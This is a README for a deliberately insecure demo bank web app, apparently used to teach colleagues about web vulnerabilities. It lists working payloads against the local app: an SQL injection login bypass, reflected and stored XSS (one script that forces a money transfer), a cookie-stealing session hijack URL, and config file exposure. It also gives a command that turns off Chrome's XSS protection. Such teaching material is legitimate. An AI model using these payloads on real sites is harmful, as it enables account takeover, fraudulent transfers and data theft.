 # Crappy bank website

NOTICE! THIS IS A REPO FILLED WITH BAD PRACTICES AND IT WAS USED FOR A DEMO TO MY COLLEGUES. PLEASE DO NOT - I REPEAT - DO NOT USE THIS CODE ANYWHERE! 

## Before you start
Please first import the test data in the db.sql
To run the app just use the php command: `php -S localhost:8080`

Please note, Google Chrome uses an xss auditor. Really nice, but to get the hang of this, please disable it while testing with the following command: 
`/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome  --disable-xss-auditor`

# Hacks

## SQL Injection in login
swijnberg' OR '1'='1

## XSS account info
http://localhost:8080/secret.php?page=account-info&account=NL15RABO037592641%3Cscript%3Ealert(123)%3C/script%3E

## ID Enummeration account-info
You are able to ennumerate account id's and see other peoples account info.

## Stored XSS transactions
<script>
document.getElementById(\'transferForm\').elements[0].value = \'NL15RABO037592641\';
document.getElementById(\'transferForm\').elements[1].value = \'1000000\';
document.getElementById(\'transferForm\').elements[2].value = \'Pwned!\';
document.getElementById(\'transferForm\').elements[3].click();</script>

## Session Hijack 
view-source:http://localhost:8080/secret.php?name=Stef%3Cscript%3Edocument.location=%27/stef/kek-session.php?%27%2Bdocument.cookie;%3C/script%3E

## arbitrairy file exposure 
http://localhost:8080/secret.php?page=config.ini&account=NL15RABO037592641
